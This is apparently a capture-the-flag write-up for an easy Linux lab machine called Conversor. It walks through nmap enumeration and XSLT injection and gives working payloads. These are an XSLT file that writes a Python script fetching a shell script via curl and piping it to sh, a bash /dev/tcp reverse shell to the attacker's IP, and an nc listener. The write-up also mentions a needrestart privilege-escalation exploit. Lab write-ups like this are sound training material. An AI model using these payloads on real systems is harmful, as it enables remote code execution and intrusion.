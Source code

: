 ```yaml
---

# COnversor (Easy): 10.10.11.92

![Icon](Images/coversoricon.png)


---
```


## Quick Overview

a new linux machine, with easy difficulty, that put in front of us :

1. **XSLT Exploitation** → Database Access → **USER.TXT**
2. **Needrestart 3.7 Privilege Escalation** → [CVE-2024-48990 Auto Exploit](https://github.com/Serner77/CVE-2024-48990-Automatic-Exploit) → *Thanks to @Serner77* → **ROOT.TXT**

---

## USER.TXT

### NMAP Enumeration

as with every machine we start with the nmap scan, that show as a classic 22/80 ports.

![Icon](Images/nmapscan.png)

we go to conversor web page, as first sight we see XML converation via XSLT, with a small round with the discover the source code in the About page.

in the Source code we got some valuabla informations, the most imprtants are :

1. XSLT is exploitable
2. you can run python scripts in the scripts directory, you can find this info in install.md
3. the users database is in instance directory

so first of all we will start with a reverse shell, by writing a python script, that will use curl to connect to our machine, that have aleardy a python http server prepared, to copy a reverse shell script, and lunche it to get our initial login.

so upload this XSLT File:

```XSLT
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exploit="http://exslt.org/common"
    extension-element-prefixes="exploit"
    version="1.0">
<xsl:template match="/">
<exploit:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.203:8000/shell.sh|sh")
</exploit:document>
</xsl:template>
</xsl:stylesheet>
```

and we prepare a python http server by using the command `python3 -m http.server`, where the reverse shell script exist:

```sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.203/9999 0>&1'
```

and last thing, nc listener `nc -nlvp 9999`.

and by that we get our initial access, as you can see:

![Icon](Images/xsltrevshell.png)







